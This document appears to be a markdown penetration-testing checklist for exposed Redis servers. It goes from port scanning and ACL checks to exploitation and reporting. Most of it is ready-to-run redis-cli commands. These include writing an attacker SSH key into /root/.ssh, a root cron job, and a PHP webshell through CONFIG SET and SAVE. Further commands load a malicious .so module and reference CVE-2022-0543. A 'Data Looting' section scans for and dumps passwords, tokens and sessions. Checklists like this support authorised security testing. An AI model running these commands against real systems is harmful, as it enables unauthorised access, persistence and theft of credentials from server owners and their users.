 ## 1. Discovery & Access
- [ ] Scan ports 6379/26379  
  ```bash
  nmap -p 6379,26379 <target>
  ```
- [ ] Banner grab  
  ```bash
  nc <target> 6379
  ```
  → send `PING` → reply `+PONG`?
- [ ] Check basic info  
  ```bash
  redis-cli -h <target> INFO server
  ```

---

## 2. Authentication & ACL
- [ ] Test known credentials  
  ```bash
  redis-cli -h <target> -a <PASS>
  ```
- [ ] Check user and permissions  
  ```bash
  redis-cli ACL WHOAMI
  redis-cli ACL LIST
  redis-cli ACL CAT @all
  ```
- [ ] Verify if current user has `+@write` or `+@dangerous`

---

## 3. Basic Write Test
- [ ] Test write operation  
  ```bash
  redis-cli SET testkey "owned"
  redis-cli GET testkey
  ```

---

## 4. Recon Information
- [ ] Full info  
  ```bash
  redis-cli INFO all
  ```
- [ ] Directory and filename  
  ```bash
  redis-cli CONFIG GET dir
  redis-cli CONFIG GET dbfilename
  ```
- [ ] Modules and available commands  
  ```bash
  redis-cli MODULE LIST
  redis-cli COMMAND
  ```

---

## 5. File Write Exploits

### 5.1 SSH authorized_keys
```bash
redis-cli SET crackit "ssh-rsa AAAAB3N..."
redis-cli CONFIG SET dir /root/.ssh/
redis-cli CONFIG SET dbfilename "authorized_keys"
redis-cli SAVE
```

### 5.2 Cronjob
```bash
redis-cli SET job "* * * * * root /bin/bash -c 'id > /tmp/owned'"
redis-cli CONFIG SET dir /etc/cron.d/
redis-cli CONFIG SET dbfilename "redis"
redis-cli SAVE
```

### 5.3 Webshell
```bash
redis-cli SET shell "<?php system($_GET['c']); ?>"
redis-cli CONFIG SET dir /var/www/html
redis-cli CONFIG SET dbfilename "x.php"
redis-cli SAVE
```

---

## 6. Replication / Module
- [ ] If `REPLICAOF` allowed → start rogue server and force replication
- [ ] Load malicious `.so` payload  
  ```bash
  redis-cli MODULE LOAD /tmp/evil.so
  ```
- [ ] Use exposed commands (e.g., `system.exec`)

---

## 7. Lua / CVE
- [ ] If `EVAL` allowed → test Lua script execution
- [ ] On Debian/Ubuntu → check **CVE-2022-0543** (RCE via Lua sandbox escape)

---

## 8. Cluster / Sentinel
- [ ] If port 26379 open  
  ```bash
  redis-cli SENTINEL masters
  redis-cli SENTINEL get-master-addr-by-name <name>
  ```
- [ ] If cluster active  
  ```bash
  redis-cli CLUSTER NODES
  redis-cli CLUSTER INFO
  ```

---

## 9. Data Looting
- [ ] Search sensitive keys with `SCAN` (never use `KEYS *`)  
  ```bash
  redis-cli SCAN 0 MATCH "*pass*" COUNT 100
  redis-cli SCAN 0 MATCH "*user*" COUNT 100
  redis-cli SCAN 0 MATCH "*token*" COUNT 100
  redis-cli SCAN 0 MATCH "*session*" COUNT 100
  ```
- [ ] Dump values  
  ```bash
  redis-cli GET <key>
  redis-cli HGETALL <key>
  redis-cli LRANGE <key> 0 -1
  redis-cli SMEMBERS <key>
  redis-cli ZRANGE <key> 0 -1 WITHSCORES
  ```

---

## 10. Reporting & Chaining
- [ ] Is Redis exposed? (public vs internal)
- [ ] Authentication required? ACL config secure?
- [ ] `@dangerous` commands accessible?
- [ ] File-write successful?
- [ ] Code execution achieved?
- [ ] Sensitive data exfiltrated?
- [ ] Possible attack chains → Redis → credentials → server takeover → lateral movement
